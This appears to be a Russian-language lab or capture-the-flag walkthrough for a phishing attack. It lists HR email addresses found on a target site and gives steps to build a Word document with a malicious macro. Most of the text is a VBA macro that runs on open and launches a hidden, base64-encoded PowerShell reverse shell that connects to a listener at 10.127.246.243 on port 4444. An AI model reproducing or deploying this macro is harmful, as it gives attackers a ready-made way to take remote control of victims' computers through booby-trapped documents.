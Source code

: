 Изучаем веб сайты и находим почты HR
o_lara@hte.stf
j_miles@hte.stf
s_boyle@hte.stf
Создаем файл docx с макросами (макро), открывает меню разработчика и Visual Basic!![](../../../attachment/Pasted%20image%2020241022204248.png)
Добавляем модуль в котором прописываем (код получен [k4sth4/Creating-a-Malicious-doc: Creating a Malicious Macro using MS Word](https://github.com/k4sth4/Creating-a-Malicious-doc?ysclid=m2kqjk193a655905640))
```
Sub NewMacro()
Sub AutoOpenMacro()
        Dim Str As String

        Str = Str + "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt"
Str = Str + "AE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF"
Str = Str + "MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIA"
Str = Str + "MQAwAC4AMQAyADcALgAyADQANgAuADIANAAzACIALAA0ADQANA"
Str = Str + "A0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBu"
Str = Str + "AHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AG"
Str = Str + "UAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA"
Str = Str + "MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQ"
Str = Str + "AgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABl"
Str = Str + "AHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AG"
Str = Str + "gAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0A"
Str = Str + "IAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATg"
Str = Str + "BhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBD"
Str = Str + "AEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAG"
Str = Str + "kAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQA"
Str = Str + "cwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQ"
Str = Str + "B0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBu"
Str = Str + "AGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAH"
Str = Str + "MAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAA"
Str = Str + "KABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJA"
Str = Str + "BzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBl"
Str = Str + "AG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAG"
Str = Str + "UAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkA"
Str = Str + "OwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbg"
Str = Str + "BkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBM"
Str = Str + "AGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AH"
Str = Str + "MAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUA"
Str = Str + "KAApAA=="


        CreateObject("Wscript.Shell").Run Str
End Sub
Sub AutoOpen()
        AutoOpenMacro
End Sub

Sub Document_Open()
        AutoOpenMacro
End Sub
```
Сохраняем файл в формате doc
